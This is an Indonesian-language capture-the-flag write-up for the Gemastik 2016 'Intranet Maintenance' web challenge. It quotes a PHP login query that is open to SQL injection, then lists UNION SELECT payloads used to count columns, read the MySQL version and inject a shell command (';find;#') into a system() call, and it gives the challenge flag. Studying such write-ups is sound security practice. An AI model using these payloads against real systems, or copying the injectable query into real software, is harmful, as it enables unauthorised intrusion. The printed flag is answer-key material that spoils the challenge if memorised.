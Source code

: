 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Intranet Maintenance - 125"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: Web Exploitation
tags: [gemastik]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Intranet Maintenance](/images/intranet-maintenance.png)


### Solusi :

Sesuai dengan clue yang diberikan, kami membuka index.php~ dan menemukan source code file index.php.
setelah kami membaca  source code tersebut kami melihat kemungkinan untuk melakukan sql injection :

`$query = "SELECT * FROM users WHERE email='$email' AND password='$password';";`

kemudian kami mencoba union dengan sleep pada kolom email untuk memastikan query berjalan sesuai keinginan kita.

`' UNION SELECT SLEEP(10) # < NORMAL`

`' UNION SELECT SLEEP(10),1 #   < NORMAL`

`' UNION SELECT SLEEP(10),1,1 # < ERROR`

Ternyata ditemukan 3 kolom union lalu kami mengecek version dari mysqlnya dengan

`' UNION SELECT 1,@@VERSION,1 #`

![Intranet maintenance mysql](/images/intranet-maintenance-mysql.png)

Kemudian kita melihat bahwa input kita masuk ke dalam system() Dan memungkinkan kita untuk melakukan command injection

![Intranet maintenance system](/images/intranet-maintenance-system.png)

Kami kemudian mencoba untuk melakukan injeksi command dengan menggunakan separator `;payload;#`
Kemudian kami sisipkan command pada kolom email

`' UNION SELECT 1,';find;#',1 #`

![Intranet maintenance find](/images/intranet-maintenance-find.png)

Dan ditemukan flag pada `db.php.save`

![Intranet maintenance flag](/images/intranet-maintenance-flag.png)

`GEMASTIK{just_another_admin_who_dont_care_about_s3cur1ty}`


